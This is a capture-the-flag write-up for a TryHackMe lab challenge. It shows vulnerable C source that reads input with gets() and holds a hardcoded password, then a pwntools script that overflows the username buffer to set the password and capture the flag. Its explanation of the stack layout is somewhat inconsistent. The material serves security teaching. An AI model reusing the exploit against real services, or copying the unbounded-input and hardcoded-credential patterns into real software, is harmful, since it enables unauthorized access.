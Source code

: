 ﻿# CONTEXT
---


Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.


Let's begin.


# EXPLOITATION
---

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
 ______ _ __ __ _ _
 | ____| | \ \ / / | | |
 | |__ | | __ _ __ \ \ / /_ _ _ _| | |_
 | __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | | | | (_| | (_| |\ / (_| | |_| | | |_
 |_| |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
 __/ |
 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( " ______ _ __ __ _ _ \n"
 		" | ____| | \\ \\ / / | | | \n"
		" | |__ | | __ _ __ \\ \\ / /_ _ _ _| | |_ \n"
		" | __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | | | | (_| | (_| |\\ / (_| | |_| | | |_ \n"
		" |_| |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		" __/ | \n"
		" |___/ \n"
		" \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	 );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
 - The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
 - The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
 
2. **Stack Layout**:
 - `password[100]` is allocated first (lower memory address).
 - `username[100]` is allocated next (higher memory address).
 - Writing beyond 100 bytes in `username` overflows into `password`.
 
3. **Login Bypass**:
 - The login check requires:
 - `username == "bytereaper"`
 - `password == "5up3rP4zz123Byte"`.
 - By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.


Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
 # Remote host and port (updated for this target)
 host = "10.10.61.110"
 port = 1337

 # Enable pwntools logging so we see:
 # [+] Opening connection to 10.10.61.110 on port 1337: Done
 # [+] Receiving all data: Done (XXB)
 # [*] Closed connection to 10.10.61.110 port 1337
 context.log_level = "info"

 # 1) Connect to the remote service
 conn = remote(host, port)

 # 2) Build the payload
 # - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
 # - 101 "A" bytes overflow into the password buffer
 # - "5up3rP4zz123Byte" is the hardcoded password the program expects
 payload = (
 b"bytereaper\x00" # username + null terminator
 + b"A" * 101 # overflow filler up to password check
 + b"5up3rP4zz123Byte" # correct password string
 )

 # 3) Wait until the remote binary prompts "Username:"
 conn.recvuntil(b"Username:")

 # 4) Send the payload (pwntools will automatically append "\n")
 conn.sendline(payload)

 # 5) Read everything the server sends back (banner + flag or error)
 # We give a small timeout to avoid hanging indefinitely
 response = conn.recvall(timeout=2).decode(errors="ignore")

 # 6) Close the connection
 conn.close()

 # 7) Extract the flag from the response.
 # The flag is expected to match THM{â€¦}, so we search with a regex.
 match = re.search(r"THM\{.*?\}", response)
 if match:
 # Print only the flag, prefixed so it's clear in the output
 print(f"Flag: {match.group(0)}")
 else:
 # If no flag was found, print the full response for debugging
 print("No flag found. Full response:\n")
 print(response)

if __name__ == "__main__":
 main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![Pasted image 20250605184529.png](../../IMAGES/Pasted%20image%2020250605184529.png)

